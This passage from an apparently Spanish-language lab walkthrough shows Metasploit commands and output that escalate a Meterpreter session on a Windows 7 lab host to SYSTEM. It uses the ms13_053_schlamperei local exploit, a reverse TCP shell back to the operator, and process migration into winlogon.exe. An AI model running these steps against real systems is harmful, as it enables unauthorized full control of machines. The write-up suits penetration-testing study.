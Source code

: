 * Cargamos el módulo:
```bash
msf6 post(multi/recon/local_exploit_suggester) > use exploit/windows/local/ms13_053_schlamperei
[*] No payload configured, defaulting to windows/meterpreter/reverse_tcp
msf6 exploit(windows/local/ms13_053_schlamperei) >
```

* Configuramos el módulo:
```bash
msf6 exploit(windows/local/ms13_053_schlamperei) > set SESSION 1
SESSION => 1
msf6 exploit(windows/local/ms13_053_schlamperei) > set LHOST Tu_IP
LHOST => Tu_IP
```

* Y lo ejecutamos:
```bash
msf6 exploit(windows/local/ms13_053_schlamperei) > exploit
.
[*] Started reverse TCP handler on Tu_IP:4444 
[*] Launching notepad to host the exploit...
[+] Process 4060 launched.
[*] Reflectively injecting the exploit DLL into 4060...
[*] Injecting exploit into 4060...
[*] Found winlogon.exe with PID 440
[+] Everything seems to have worked, cross your fingers and wait for a SYSTEM shell
[*] Sending stage (175686 bytes) to 10.10.10.5
[*] Meterpreter session 2 opened (Tu_IP:4444 -> 10.10.10.5:49161)
.
meterpreter > shell
Process 1068 created.
Channel 1 created.
Microsoft Windows [Version 6.1.7600]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.
.
C:\Windows\system32>whoami
whoami
nt authority\system
```
Con esto ya hemos ganado acceso como Administador.

Es posible que falle y no se genere una sesión como **Administrador**, pero el módulo indicara que sí funciono, entonces, si entras a la máquina puedes buscar el **proceso winlogon.exe** y migrar a este para ser **Administrador**.
```bash
meterpreter > ps

Process List
============

 PID   PPID  Name               Arch  Session  User                          Path
 ---   ----  ----               ----  -------  ----                          ----
 0     0     [System Process]
 4     0     System             x86   0
 236   4     smss.exe           x86   0        NT AUTHORITY\SYSTEM           \SystemRoot\System32\smss.exe
 328   308   csrss.exe          x86   0        NT AUTHORITY\SYSTEM           C:\Windows\system32\csrss.exe
 380   308   wininit.exe        x86   0        NT AUTHORITY\SYSTEM           C:\Windows\system32\wininit.exe
 388   372   csrss.exe          x86   1        NT AUTHORITY\SYSTEM           C:\Windows\system32\csrss.exe
 440   372   winlogon.exe       x86   1        NT AUTHORITY\SYSTEM           C:\Windows\system32\winlogon.exe
.
meterpreter > migrate 440
```